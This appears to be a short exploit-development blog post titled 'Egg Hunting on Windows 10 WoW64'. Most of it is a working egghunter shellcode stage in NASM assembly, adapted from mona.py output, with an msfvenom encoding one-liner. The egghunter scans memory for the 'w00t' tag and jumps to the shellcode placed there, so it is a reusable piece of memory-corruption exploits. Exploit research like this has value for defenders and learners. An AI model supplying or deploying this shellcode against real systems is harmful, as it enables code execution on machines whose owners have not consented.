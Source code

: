 ## Egg Hunting on Windows 10 WoW64

Since a lot of literature already exists and it shows in very detail all the phases of the exploit development, we will keep the post short and only see the egghunter.

Due to the stack conditions at execution time, the egghunter generated with [mona.py](https://github.com/corelan/mona) is not working and it needs to be updated. After few hours of debugging with [@stefano_118](https://twitter.com/stefano_118), we work out a working version of it. I sent out a [Pull Request](https://github.com/corelan/mona/pull/43) to the project so that the changes can be peer reviewed by the community.

Here you can find the working egghunter for Windows 10 WoW64 that I used in the exploit.

```nasm
; egghunter win10 wow64
; tested on Microsoft Windows 1809 [Version 10.0.17763.805]
; build it with:
; nasm -felf32 egghunter.asm -o egghunter.o && for i in $(objdump -d ./egghunter.o | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$') ; do echo -ne "\x$i" ; done | msfvenom -p- --arch x86 --platform windows -e x86/alpha_mixed BUFFERREGISTER=eax

BITS 32
global _start
section .text

_start:
    mov    ebx, cs
    cmp    bl, 0x23
    xor    edx, edx
page_invalid:
    or     dx, 0xfff
page_valid:
    xor    ebx, ebx
    inc    edx
    push   ebx ; added
    push   ebx ; added
    push   edx
    push   ebx
    push   ebx
    push   ebx
    push   0x29
    pop    eax
    mov    bl, 0xc0
    call   DWORD [fs:ebx]
    add    esp, 0x0c
    pop    edx
    add    esp, 0x8 ; added
    cmp    al, 0x5
    je     page_invalid
    mov    eax, 0x74303077 ; w00t
    mov    edi, edx
    scasd
    jne    page_valid ; adjusted
    scasd
    jne    page_valid ; adjusted
    jmp    edi
```
